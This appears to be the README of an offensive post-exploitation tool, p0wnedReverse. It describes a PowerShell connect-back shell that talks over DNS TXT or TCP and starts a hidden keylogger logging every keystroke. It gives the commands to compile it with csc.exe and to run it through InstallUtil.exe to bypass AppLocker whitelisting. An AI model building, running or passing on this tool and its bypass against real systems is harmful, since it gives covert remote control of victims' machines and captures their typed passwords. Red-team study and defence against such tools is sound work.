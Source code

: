 # p0wnedReverse
PowerShell Runspace Connect-Back Shell

### Author: Cn33liz and Skons

License: BSD 3-Clause

### What is it:

p0wnedReverse is based on the same code as [p0wnedShell](https://github.com/Cn33liz/p0wnedShell) and can be used as an Reversed (Connect-Back) shell.
Communication Channels are made using Besimorhino's PowerCat code and you can choose between DNS TXT or TCP Communication Channels.
When the code is run it also starts an C# Keylogger that logs all keystrokes to "$env:Temp\KeyLog-*". You can use the Get-Keystrokes command within the shell to display all logged keystrokes.   
For a DNS tunnel you need to run a remote [DNSCat2 Listener](https://github.com/iagox86/dnscat2) and for TCP communication you can use [p0wnedShell](https://github.com/Cn33liz/p0wnedShell) to setup a Powercat Listener.


### How to Compile it:

To compile p0wnedReverse you need to import this project within Microsoft Visual Studio or if you don't have access to a Visual Studio installation, you can compile it as follows:

To Compile as x86 binary:

```
cd \Windows\Microsoft.NET\Framework\v4.0.30319

csc.exe /unsafe /reference:"C:\p0wnedReverse\System.Management.Automation.dll" /reference:System.IO.Compression.dll /out:C:\p0wnedReverse\p0wnedReversex86.exe /platform:x86 "C:\p0wnedReverse\*.cs"
```

To Compile as x64 binary:

```
cd \Windows\Microsoft.NET\Framework64\v4.0.30319

csc.exe /unsafe /reference:"C:\p0wnedReverse\System.Management.Automation.dll" /reference:System.IO.Compression.dll /out:C:\p0wnedReverse\p0wnedReversex64.exe /platform:x64 "C:\p0wnedReverse\*.cs"
```

p0wnedReverse uses the System.Management.Automation namespace, so make sure you have the System.Management.Automation.dll within your source path when compiling outside of Visual Studio.

### How to use it:

Just run the executables or...

To run as x86 binary and bypass Applocker (Credits for this great bypass go to Casey Smith aka subTee):

```
cd \Windows\Microsoft.NET\Framework\v4.0.30319 (Or newer .NET version folder)

InstallUtil.exe /logfile= /LogToConsole=false /U C:\p0wnedReverse\p0wnedReversex86.exe
```

To run as x64 binary and bypass Applocker:

```
cd \Windows\Microsoft.NET\Framework64\v4.0.30319 (Or newer .NET version folder)

InstallUtil.exe /logfile= /LogToConsole=false /U C:\p0wnedReverse\p0wnedReversex64.exe
```
